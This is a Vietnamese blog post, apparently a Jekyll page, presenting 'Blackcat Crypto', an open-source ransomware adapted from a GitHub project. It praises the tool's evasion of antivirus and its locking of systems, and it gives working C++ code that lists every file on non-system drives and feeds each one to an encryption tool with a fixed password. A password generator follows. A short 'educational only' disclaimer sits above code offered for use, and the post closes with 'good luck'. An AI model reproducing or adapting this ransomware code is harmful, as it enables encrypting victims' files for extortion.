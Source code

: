 ```yaml
---
title: Mã Độc Blackcat Crypto
date: 10/08/2021
layout: single
header:
  teaser: /assets/images/madoc.jpg
--- 
```



## Mô Tả 
Khuyến cáo công cụ chỉ mang tính chất giáo dục, không sử dụng các mục đích vi phạm pháp luật, tôi và tác giả của bài viết này sẽ không chịu trách nhiệm với hành động của các bạn với mục đích bất hợp pháp nào Cảm Ơn! 

Blackcat Crypto là Crypto-Locker mã nguồn mở. Blackcat Crypto được phát triển bằng Visual C ++. Nó có các tính năng mã hóa tất cả các tập tin, khóa hệ thống và gửi các khóa trở lại máy chủ. Chức năng đa luồng giúp công cụ này mã hóa nhanh hơn.

Khó có thể bị phát hiện bởi Công cụ chống virus.

Sử dụng thuật toán mã hóa 256-bit mạnh mẽ, Khi một tệp được mã hóa, Tệp sẽ hoàn toàn vô dụng nếu không có mật khẩu. Nó chỉ đơn giản là không thể đọc được [ajayrandhawa/Cryptolocker](https://github.com/ajayrandhawa/Cryptolocker)



## Đặc trưng
1. Mã hóa AES mạnh mẽ.
2. Chức năng hệ thống khóa.
3. Mã hóa đa luồng.


![](https://raw.githubusercontent.com/ajayrandhawa/Cryptolocker/master/ezgif-1-e99b3d2b6b39.gif)
 
## Bước 1 (Fetch files)
Lấy tất cả các tệp từ tất cả các ổ đĩa để mã hóa chúng.

Đây là chương trình Visual C ++ lấy tất cả danh sách thư mục & tệp trong ổ đĩa và lưu trữ đường dẫn trong tệp văn bản để mã hóa sử dụng sau này. Tôi sử dụng thư viện Boost C ++ để lấy danh sách tất cả các tệp. Trước tiên hãy thiết lập thư viện Boost để biên dịch chương trình.

![Language](https://img.shields.io/badge/Lang-c++-blue.svg)

```cpp
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

    int dr_type = 99;
    char dr_avail[MAX];
    char *temp = dr_avail;

    /* 1st we fill the buffer */
    GetLogicalDriveStrings(MAX, dr_avail);
    while (*temp != NULL) { // Split the buffer by null
        dr_type = GetDriveType(temp);

        char skip[10] = "C:\\";

        if (dr_type == 3 && temp[0] != 'C') {

            boost::system::error_code dir_error;

            for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
                if (dir_error.value()) {
                    cerr << "Error accessing file: " << dir_error.message() << endl;
                }
                else {
                    cout << dir->path() << endl;
                    out_file << dir->path() << "\n";
                }
            }
        }
        temp += lstrlen(temp) + 1;
    }
    out_file.close();
    system("pause");
```

## Bước 2 (Encrypt files)
Trước tiên,  lấy từng đường dẫn tệp từ "data.txt" và gửi tới công cụ crypy này với mã hóa kiểu và mật khẩu. bạn cũng có thể nhúng tất cả chương trình này vào vòng lặp trên để lấy đường dẫn và mã hóa dữ liệu một cách đệ quy.

```cpp
out_file.open("data.txt", ios::in);
    string line;
    while (out_file.good()) {
        getline(out_file, line);
        cout << line << endl;
        std::string cmmd = "crpt.exe -e -p 4321 ";
        cmmd += line;
        system(cmmd.c_str());
    }

```
## Bước 3 (Create Long String Complex Password Function)
Gửi độ dài đến hàm và hàm trả về mật khẩu phức tạp dài được tạo mà bạn có thể sử dụng để mã hóa.
```cpp
string RandomString(int len)
{
    srand(time(0));
    string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    string newstr;
    int pos;
    while (newstr.size() != len) {
        pos = ((rand() % (str.size() - 1)));
        newstr += str.substr(pos, 1);
    }
    return newstr;
}

```

## Bài viết được chia sẻ bởi tác giả [ajayrandhawa](https://github.com/ajayrandhawa/)

## Chúc may mắn :D

